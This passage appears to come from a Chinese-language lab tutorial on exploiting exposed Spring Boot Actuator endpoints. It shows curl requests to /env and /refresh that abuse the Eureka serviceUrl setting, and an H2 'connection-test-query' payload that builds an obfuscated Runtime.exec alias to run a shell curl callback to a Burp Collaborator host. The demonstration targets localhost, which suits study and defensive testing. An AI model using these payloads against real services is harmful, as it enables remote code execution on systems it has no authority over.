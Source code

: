 ```plain
curl -X POST http://localhost:9093/refresh
```

[![](assets/1703152930-0eafcbe0788d228b4e163d5dd6c116a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111914-49db93d0-d176-1.png)

成功执行请求，也执行了命令。

- - -

**(4)恢复 eureka.client.serviceUrl.defaultZone**

如果不恢复的话，那么就会一直执行，系统也会一直报错。

```plain
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone="原先的值" http://localhost:9093/env
```

然后刷新，使用新配置

```plain
curl -X POST http://localhost:9093/refresh
```

- - -

#### **3.restart h2 database query RCE**

```plain
cd springboot-h2-database-rce
mvn spring-boot:run
```

> 影响版本:(未知) 我改了配置文件，直接用了最新版的来做演示
> 
> 目前最新版:1.4.200

**(1) 设置spring.datasource.hikari.connection-test-query**

```plain
cmd.json:
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/sh','-c','curl 0bcmbenbn8ydjn0zgztfb76hf8l29r.burpcollaborator.net');"}

curl -H "Content-Type:application/json" -X POST  -d @/tmp/cmd.json http://localhost:9096/actuator/env
```
